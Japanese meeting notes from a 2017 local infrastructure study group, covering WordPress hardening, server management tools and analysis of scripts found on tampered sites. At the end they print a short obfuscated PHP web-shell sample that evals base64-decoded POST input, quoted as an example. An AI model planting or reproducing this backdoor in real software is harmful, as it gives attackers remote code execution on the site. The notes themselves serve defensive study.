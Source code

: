 ```yaml
---
title: 加古川IT系インフラ勉強会 2017.09
date: 2017-09-09
categories:
  - 開催履歴
tags:
  - 加古川IT系インフラ勉強会
---
```


* 開催日：2017/09/09
* 司会：wate
* 参加者数：参加者: 6名 / 学生: 0名 / Hangout: 1名
* 備考：気付いたことなど、自由に記入をお願いします！
* Connpass: https://histudy.connpass.com/event/66082/
* ハッシュタグ：#kakogawa_infra

---

## 脆弱性

* MySQLの不満あれこれ
  * いつの間にかテーブルサイズが肥大化する
  * プラグインによっては、wp_options テーブルが肥大化。。。
  * 「汎用化」に振りすぎ？
* Wordpressのセキュリティ対策
  * REST APIで脆弱性が増えたかも
  * パーミッションに注意
  * セーフモードは既に意味なさげ
  * プラグインを制限する
  * 接続元を国内限定にする(かなり効いた)
  * ファイルのチェックサムを取る
  * gitで管理する
  * WPScanかける
  * ...のような面倒な作業はJenkinsに任せたい(LDAPサーバどうしよう)
* Jenkinsによる自動化とか勉強会やってみたい
  * Jenkins2.0でPipelineが導入された。便利そう
* うちのインフラ部門がAmazon Linux大好きなので、最近そちらやってます
  * Debian慣れしてるので、Amazon Linux 気持ち悪い
  * RedHatに似てるが、バージョンをがんがんあげるので互換性に不安
* CentOS めんどくさい
  * 7に移行中です
  * 7になれてない人大丈夫？
* やはりサーバは2-3年で更新しないと
* クラウドで管理はだいぶ楽になった
  * Shell Scrptでちまちま管理してましたがAnsibleでOK
  * OpenStackまわりとかやってみたいね(ConoHaとか)
* Vineなつかし。MecabはまだUTF-8がデフォルトじゃないのかしら
* 幸いWordPressの闇はまだ見たことないです
* Webの勉強会開催は難しい?
  * 勉強会のフォームを用意して、「あとはよろしくね」というメソッドが有効?
  * WordBench姫路開催の予感
  * WordBench京都、大阪、神戸の所感もげもげ
* サーバ管理ネタをWordBenchあたりで話してみる?
  * 管理者の視点で言えることとか
* サーバアプリケーションの脆弱性対応は、業者ではやりにくい(検閲とかに該当)
* WordPress改竄スクリプトの解析とかやってるところもあります
* 改竄コードの例
  * $$dataという変数に、あらかじめbase64でエンコードしておいた生データをデコード、代入している
  * $$dataをそのままeval、とかやってそう
  * 怪し気なzipファイルを展開している
  * zipファイル展開確認。フィッシングサイトを開設するとおぼしきphpのコード一式が入っていた
  * おそらく同時に撒いたであろうspamにここのURLが入ってるはず
  * ACLファイルを入れ替えられてるも
* Fail2banをSMTPなどにも入れている
* sshアクセスはWebからのアクセス元のみに限定する
* FollowSymlinkの禁止を導入したが、一部ツールはこれに依存していたりする
* JavaScriptの脆弱性
  * 難読コード(昔の一例)

```php
<?php
    $sF="PCT4BA6ODSE_";
    $s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
    $s20=strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[0]);if (isset(${$s20}['nd335c3'])) {
        eval($s21(${$s20}['nd335c3']));
    }
?>
```
